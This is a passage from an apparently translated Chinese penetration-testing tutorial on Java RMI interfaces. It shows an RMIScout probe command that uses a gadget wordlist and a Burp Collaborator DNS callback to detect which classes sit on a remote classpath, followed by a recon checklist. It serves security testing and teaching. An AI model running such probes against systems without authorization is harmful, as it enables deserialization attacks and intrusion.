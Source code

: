 ```
./rmiscout.sh probe -s ‘String echo(java.lang.Object qwewqe)’ -i ../GadgetProbe/wordlists/maven_popular.list -d “av9nuav4lhol8ytlc9ut2ditlkrgf5.burpcollaborator.net” -n RMIInterface localhost 11099
```

让我解释一下这里发生了什么:

首先，我们采用之前从 RMIScout 的枚举过程中获得的方法。这是被发现的回声方法，

它正在 RMIScout 中运行，带有探针参数，该参数还与 maven_popular 单词表相关联

附加参数通知 RMIScout 关于 dns 端点的信息，如果远程类路径上也存在单词列表中的类，将解析该端点

它还获取关于注册表绑定、端口和主机的信息

运行后，可以看到 *java.lang.String* 已经被解析！

![](img/a0a7e43a6707bda558aefd4cf04de030.png)![](img/1a401740eb0d365c04b3ca6450472379.png)

请注意，白色文本不是正在执行的方法的证明。**你应该依靠 DNS 交互**，在这种情况下，可以在 burp 中看到。

![](img/4c8fb6ff334d687635a8325eab84f0a8.png)

正如已经说过的，DNS 交互是“通用小工具”之一，因为它依赖于本地 java 类，这就是为什么在探测机制中使用它如此可靠。此外，向您的类单词列表中添加一些像 java.lang.String 这样的“始终为真”的类是一个好主意，这样，如果您甚至找不到它们，您就可以推断出已经有了对策。

# 摘要

总而言之，非 JMX RMI 接口(那些没有*实现 javax . management . remote . RMI . RMI server*的接口)的测试包括以下步骤:

使用 Nmap 转储注册表信息的侦测

检查 invocationhandler 是否可访问，否则调整网络/DNS 设置

如果可能的话，尝试在线或在源代码中找到远程接口

否则，尝试使用 RMIScout 猜测方法

